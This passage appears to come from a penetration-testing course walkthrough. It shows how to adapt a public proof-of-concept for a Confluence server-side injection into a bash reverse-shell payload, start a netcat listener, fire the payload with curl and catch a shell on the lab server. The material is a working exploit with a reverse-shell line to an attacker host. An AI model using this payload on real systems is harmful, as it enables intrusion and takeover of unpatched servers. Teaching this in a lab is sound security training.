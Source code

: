 While making these modifications, we also need to take the URL encoding into account. The payload string in the proof-of-concept isn't completely URL encoded. Certain characters (notably ".", "-" and "/") are not encoded. Although it's not always the case, for _this_ exploit, this turns out to be important to the functioning of the payload. If any of these characters are encoded, the server will parse the URL differently, and the payload may not execute. This means we can't apply URL encoding across the whole payload once we've modified it.

Keeping this in mind, we'll manually modify the parameters we need, using the original proof-of-concept payload as our base. We can change the Confluence server IP to **192.168.50.63**, and the Bash interactive shell payload IP and port to a listener we're going to open on our Kali machine (**/dev/tcp/192.168.118.4/4444**). We'll also remove the **curl** verbosity flag. This leaves us with the following modified payload:

```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

> Listing 3 - The modified payload.

Now that our payload is customized for our use, we can start a [_Netcat_](https://en.wikipedia.org/wiki/Netcat) listener on our Kali machine on TCP port 4444.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

> Listing 4 - Starting Netcat listener on port 4444 on our Kali machine.

With our listener running, we'll open another shell on our Kali machine, then run the **curl** command we just constructed.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

> Listing 5 - Executing the modified reverse shell payload.

The command itself doesn't return anything, but the reverse shell is caught by our listener.

```
...
listening on [any] 4444 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.63] 55876
bash: cannot set terminal process group (813): Inappropriate ioctl for device
bash: no job control in this shell
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
```
